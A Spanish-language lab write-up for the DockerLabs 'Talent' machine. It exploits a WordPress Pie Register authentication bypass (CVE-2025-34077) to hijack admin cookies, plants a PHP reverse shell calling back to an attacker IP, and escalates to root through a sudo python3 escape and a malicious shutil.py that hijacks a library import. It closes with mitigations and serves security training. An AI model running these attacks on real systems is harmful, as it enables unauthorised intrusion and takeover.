# Talent - DockerLabs

| Campo      | Detalle                   |
| ---------- | ------------------------- |
| Plataforma | DockerLabs                |
| Dificultad | Media                     |
| Sistema    | Linux (contenedor Docker) |
| IP         | 172.17.0.2                |
| Fecha      | 13/11/2026                |

## Resumen

El acceso inicial se obtiene enumerando un **WordPress** que expone el plugin **Pie Register 3.7.1.0**, afectado por la vulnerabilidad de *bypass* de autenticación [CVE-2025-34077](https://nvd.nist.gov/vuln/detail/CVE-2025-34077): con un exploit público se suplanta la sesión del usuario `admin` robando sus *cookies*. Ya en el panel se usa el plugin **WP File Manager** para subir una *reverse shell* en PHP ([php-reverse-shell de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)) y obtener una shell como `www-data`. La escalada se hace en dos saltos: de `www-data` a `bobby` mediante un permiso `sudo` sobre `/usr/bin/python3` ([GTFOBins](https://gtfobins.github.io/gtfobins/python/)), y de `bobby` a `root` abusando de un **secuestro de librería de Python** (*Python library hijacking*) sobre un script de backup que `bobby` puede ejecutar como root.

## Despliegue del laboratorio

Se despliega la máquina vulnerable con el script proporcionado por DockerLabs:

```bash
sudo bash auto_deploy.sh talent.tar
```

El script confirma el despliegue y asigna la IP de la máquina:

```
Máquina desplegada, su dirección IP es —> 172.17.0.2
```



## Reconocimiento

Se lanza un escaneo de puertos completo con [Nmap](https://nmap.org/book/man.html):

```bash
sudo nmap -p- -sS -sC -sV -T5 -n -Pn -vvv 172.17.0.2
```

Parámetros empleados:

- `-p-`: escanea los 65535 puertos TCP, no solo los más comunes.
- `-sS`: escaneo SYN (half-open), rápido y discreto.
- `-sC`: ejecuta los scripts NSE por defecto para obtener más información de cada servicio.
- `-sV`: detección de versión de los servicios.
- `-T5`: plantilla de temporización más agresiva, para acelerar el escaneo.
- `-n`: no resuelve DNS inverso.
- `-Pn`: omite el descubrimiento de host (asume que está activo), necesario porque muchos entornos Docker/CTF no responden a ping.
- `-vvv`: salida muy detallada, útil para ver los puertos según se van descubriendo.



El escaneo revela un único puerto abierto, el **80 (HTTP)**, servido por Apache sobre Ubuntu. Los scripts NSE identifican además que el sitio es un **WordPress 6.9.1** ("Mi sitio WordPress"):

```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mi sitio WordPress
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: WordPress 6.9.1
```



Al visitar `http://172.17.0.2` se confirma el WordPress, con un blog y la entrada por defecto "Hello world!". En el menú superior aparecen las rutas de registro y login (*Forgot Password*, *Login*, *Profile*, *Registration*), lo que sugiere que hay un plugin de gestión de usuarios instalado:



## Enumeración

Para analizar el WordPress se usa [WPScan](https://github.com/wpscanteam/wpscan), un escáner específico para este CMS. Se enumeran **usuarios** (`u`) y **plugins** (`p`):

```bash
wpscan --url http://172.17.0.2 -e u,p
```

Desglose del comando:

- `--url http://172.17.0.2`: dirección del WordPress.
- `-e u,p`: *enumerate*. `u` enumera usuarios y `p` enumera plugins instalados.



WPScan identifica el plugin **pie-register** en su versión **3.7.1.0** (detectado por el `readme.txt`) y un usuario válido, **admin**:

```
[+] pie-register
 | Location: http://172.17.0.2/wp-content/plugins/pie-register/
 | Version: 3.7.1.0 (80% confidence)

[i] User(s) Identified:
[+] admin
 | Found By: Rss Generator (Passive Detection)
```



Conocer la versión exacta de un plugin es clave: permite buscar vulnerabilidades públicas concretas. Se busca información sobre exploits conocidos para **Pie Register**:



La búsqueda apunta a la **[CVE-2025-34077](https://nvd.nist.gov/vuln/detail/CVE-2025-34077)**, un *bypass* de autenticación crítico (CVSS 10.0) que afecta a Pie Register **≤ 3.7.1.4**. La vulnerabilidad permite a un atacante **no autenticado** suplantar la identidad de cualquier usuario —incluido el administrador— enviando una petición `POST` especialmente manipulada al endpoint de login, lo que puede derivar en ejecución remota de código. Se localiza un exploit público (publicado también en [Exploit-DB, EDB-ID 52370](https://www.exploit-db.com/exploits/52370)):

<!-- TODO: confirmar la URL exacta del repositorio del exploit mostrado en la captura (github.com/32BitZ-Studio/Total-POC-CVE o similar); se deja sin enlazar por no poder verificarla. -->



## Explotación / acceso inicial

Se descarga el exploit y se ejecuta siguiendo las instrucciones de su README, indicando como argumento la URL del WordPress objetivo:

```bash
python3 pie.py http://172.17.0.2/
```

El exploit envía el *payload* que abusa del *bypass* y **secuestra la sesión del administrador**, devolviendo las *cookies* de sesión válidas de `admin` (`user_id=1`):

```
[*] Sending payload to hijack admin session...
[+] Successfully hijacked cookies for user_id=1 (admin):
    wordpress_...        = admin%7C...
    wordpress_logged_in_... = admin%7C...
[!] Use these cookies in your browser or tools like curl or Burp to act as admin.
```

Que el exploit funcione sin credenciales es precisamente el núcleo de la vulnerabilidad: el plugin confía en datos controlados por el atacante para decidir *qué* usuario inicia sesión, por lo que basta con pedir ser el `admin`.



Para usar esas cookies se abren las herramientas de desarrollador del navegador (pestaña *Storage → Cookies*) sobre `http://172.17.0.2` y se sustituyen los valores de `wordpress_logged_in_...` y `wordpress_...` por los obtenidos del exploit:



Al recargar, el navegador presenta esas cookies y WordPress nos reconoce como **admin**, dándonos acceso completo al panel de administración (`wp-admin`):



Con permisos de administrador se puede obtener ejecución de comandos en el servidor. Se genera una *reverse shell* en PHP con [revshells.com](https://www.revshells.com/), eligiendo la plantilla **PHP PentestMonkey** ([php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)) e indicando la IP de la máquina atacante (`192.168.1.150`) y el puerto de escucha (`4444`):



Para colocar ese código en el servidor se usa el plugin **WP File Manager** ([wp-file-manager](https://wordpress.org/plugins/wp-file-manager/)), que ofrece un explorador de archivos con editor integrado desde el panel. Se navega hasta `wp-content/` y se selecciona el fichero `index.php`:



Se abre `index.php` con el editor y se **pega el código de la reverse shell**. Al ejecutarse, el script abre una conexión saliente hacia `192.168.1.150:4444` y redirige una shell (`sh -i`) a través de ella:



Antes de disparar la shell, se deja un *listener* a la escucha en la máquina atacante con [netcat](https://netcat.sourceforge.net/), en el mismo puerto configurado en el payload (4444):

```bash
sudo nc -nlvp 4444
```

Parámetros de `nc`:

- `-n`: no resuelve DNS.
- `-l`: modo escucha (listen).
- `-v`: salida detallada (verbose).
- `-p 4444`: puerto en el que escuchar.



El panel *Selection Info* de WP File Manager muestra la ruta del fichero editado (`html/wp-content/index.php`), que se corresponde con la URL `http://172.17.0.2/wp-content/index.php`:



Al visitar esa URL en el navegador, Apache ejecuta el `index.php` modificado y se lanza la *reverse shell*. En el listener de netcat se recibe la conexión y se obtiene una shell como el usuario **www-data** (`uid=33`), el usuario con el que corre el servidor web:

```bash
whoami
www-data
```



## Escalada de privilegios

### Enumeración inicial como www-data

Ya dentro como `www-data`, se enumeran los permisos `sudo`:

```bash
sudo -l
```

La salida indica que `www-data` puede ejecutar `/usr/bin/python3` **como el usuario `bobby`** sin contraseña:

```
User www-data may run the following commands on 0c3c914e9248:
    (bobby) NOPASSWD: /usr/bin/python3
```



Como alternativa, también se revisan los binarios con bit **SUID**, pero solo aparecen los estándar del sistema (`passwd`, `su`, `mount`, `sudo`...), ninguno anómalo, así que esa vía queda descartada:

```bash
find / -perm -4000 2>/dev/null
```



### Obstáculo: python3 no está instalado (particularidad del laboratorio)

El plan es claro: `sudo -l` autoriza `(bobby) /usr/bin/python3`, y [GTFOBins](https://gtfobins.github.io/gtfobins/python/) documenta cómo pasar de un `sudo python3` a una shell con `python3 -c 'import os; os.system("/bin/bash")'`. Sin embargo, al ejecutarlo `sudo` responde que no encuentra el binario. La comprobación lo confirma: `python3` **no está instalado** en el contenedor (`which python3` vacío, `/usr/bin/python*` no existe), y `www-data` no puede escribir en `/usr/bin` para crear uno falso.

Es una particularidad del laboratorio: el permiso `sudo` apunta a un binario ausente. Para desbloquearlo se instala `python3` **dentro del contenedor desde el host** de DockerLabs (el host sí tiene Docker; la máquina víctima es el contenedor). Se identifica el contenedor y se instala python por `docker exec`:

```bash
sudo docker container ls
sudo docker exec -it 0c3c914e9248 bash -c 'apt update -y'
sudo docker exec -it 0c3c914e9248 bash -c 'apt install python3 -y'
```



### De www-data a bobby

Con `python3` ya disponible, se aprovecha el permiso `sudo` para ejecutarlo como `bobby` y lanzar una shell. La técnica (documentada en [GTFOBins](https://gtfobins.github.io/gtfobins/python/)) consiste en pedir a Python que invoque el sistema operativo para abrir una shell:

```bash
sudo -u bobby /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```

Desglose:

- `sudo -u bobby`: ejecuta el comando con la identidad de `bobby` (amparado por el permiso `NOPASSWD`).
- `/usr/bin/python3 -c '...'`: ejecuta una línea de código Python.
- `import os; os.system("/bin/bash")`: importa el módulo `os` y lanza una shell `/bin/bash`, que hereda la identidad de `bobby`.

Se confirma el salto de usuario:

```bash
whoami
bobby
```



### De bobby a root: secuestro de librería de Python

Como `bobby`, se vuelve a enumerar `sudo`:

```bash
sudo -l
```

Ahora aparece un permiso más específico: `bobby` puede ejecutar como **cualquier usuario** (es decir, también `root`) el intérprete de Python sobre un script concreto:

```
User bobby may run the following commands on 0c3c914e9248:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/backup.py
```

Se inspecciona el script `/opt/backup.py`. En sus primeras líneas importa varios módulos estándar:

```python
#!/usr/bin/env python3
"""
Script de backup para /opt/backup.py
Permite hacer copias de seguridad de directorios y archivos importantes
"""
import os
import sys
import shutil
import datetime
import tarfile
import logging
...
```



Aquí está la clave. Cuando Python ejecuta un script, **añade el directorio del script al principio de `sys.path`** (la lista de rutas donde busca módulos al importar). Por tanto, al correr `sudo python3 /opt/backup.py`, Python buscará los módulos importados (`shutil`, etc.) **primero en `/opt/`** antes que en la librería estándar. Si un atacante puede escribir en `/opt/` un fichero con el nombre de uno de esos módulos, su código se cargará en lugar del módulo legítimo. A esto se le llama **secuestro de librería de Python** (*Python library hijacking*), descrito en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#python-library-hijacking).

Se comprueba que `bobby` tiene permiso de escritura en `/opt/` y se crea un módulo `shutil.py` malicioso que, al ser importado, lanza una shell. Después se ejecuta el script de backup con `sudo`:

```bash
cd /opt
echo 'import os; os.system("/bin/bash")' > /opt/shutil.py
sudo /usr/bin/python3 /opt/backup.py
```

Qué hace cada parte:

- `cd /opt`: se sitúa en el directorio del script, que es donde Python buscará los módulos primero.
- `echo '...' > /opt/shutil.py`: crea el módulo falso `shutil.py`, cuyo contenido (`import os; os.system("/bin/bash")`) se ejecuta en el momento en que `backup.py` haga `import shutil`.
- `sudo /usr/bin/python3 /opt/backup.py`: ejecuta el script como `root`. Al llegar al `import shutil`, Python carga `/opt/shutil.py` (el malicioso) y abre una shell con privilegios de root.

Se comprueba el usuario y se confirma el acceso como **root**:

```bash
whoami
root
```



La máquina queda totalmente comprometida.

## Conclusiones y mitigaciones

- **Bypass de autenticación en Pie Register — CVE-2025-34077 (acceso inicial)**: un plugin desactualizado con una vulnerabilidad crítica permite suplantar al administrador sin credenciales y, de ahí, ejecutar código ([CVE-2025-34077](https://nvd.nist.gov/vuln/detail/CVE-2025-34077)).
  - **Mitigación**: mantener WordPress y todos los plugins actualizados (Pie Register a una versión posterior a la 3.7.1.4), retirar plugins que no se usen y suscribirse a avisos de seguridad del CMS.
- **Ejecución de código vía plugin de gestión de ficheros (acceso inicial)**: con permisos de administrador, WP File Manager permite editar ficheros PHP del servidor, lo que equivale a ejecución remota de código ([OWASP — Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)).
  - **Mitigación**: aplicar el principio de mínimo privilegio en las cuentas, deshabilitar la edición/instalación de plugins desde el panel (`DISALLOW_FILE_EDIT`, `DISALLOW_FILE_MODS`) y limitar quién tiene rol de administrador.
- **`sudo` sobre el intérprete de Python (escalada www-data → bobby)**: permitir ejecutar `python3` vía `sudo` concede una evasión de shell trivial hacia el usuario destino ([GTFOBins — python](https://gtfobins.github.io/gtfobins/python/)).
  - **Mitigación**: no conceder `sudo` sobre intérpretes (python, perl, ruby...) ni otros binarios con capacidad de evasión de shell.
- **Secuestro de librería de Python (escalada bobby → root)**: ejecutar vía `sudo` un script de Python ubicado en un directorio con escritura permite reemplazar los módulos que importa y ejecutar código como root ([HackTricks — Python library hijacking](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#python-library-hijacking)).
  - **Mitigación**: los scripts ejecutables vía `sudo` deben residir en directorios solo escribibles por root (p. ej. permisos `755` propiedad de root), evitar importar desde rutas controlables por el usuario y fijar un `sys.path` seguro o usar `python3 -I` (modo aislado).
